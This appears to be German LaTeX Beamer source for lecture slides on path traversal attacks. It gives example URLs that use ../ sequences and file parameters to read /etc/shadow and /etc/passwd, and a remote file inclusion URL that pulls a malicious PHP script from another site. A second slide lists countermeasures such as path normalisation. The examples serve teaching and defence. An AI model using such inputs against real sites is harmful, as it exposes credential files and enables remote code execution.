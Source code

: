 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{Path Traversal Attack - Beispiele}
  Beispiel Zugriff auf Dateien:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/get-files.jsp?file=report.pdf
  http://some_site.com.br/some-page.asp?page=index.html
  \end{lstlisting}

  UNIX Passwort abgreifen:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/../../../../etc/shadow
  http://some_site.com.br/get-files?file=/etc/passwd
  \end{lstlisting}

  Auch m\"oglich Dateien und Scripte von externen Websiten einzubinden:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/some-page?page=http:
    //other-site.com.br/other-page.htm/malicius-code.php
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Path Traversal Attack - Schutzma{\ss}nahmen}
  \begin{itemize}
    \item Nutzereingaben vermeiden wenn m\"oglich, bei Datei System Aufrufen
    \item Indexes anstatt Dateinahmen verwenden, f\"ur Benutzereingaben
    \item Nutzer soll nicht ganzen Pfad eingeben k\"onnen, mit eigenem Pfad umgeben
    \item Pfade normalisieren
    \begin{itemize}
      \item "." Segmente entfernen
      \item ".." - Segmente die ein nicht-".." Segment dafor haben werden entfernt
      \item Wenn Pfad relative und das erste Segment enth\"alt ein ":" Charackter dann wir ein "." vorangestellt
    \end{itemize}
  \end{itemize}
\end{frame}


\section{Format String Attack}
\end{document}
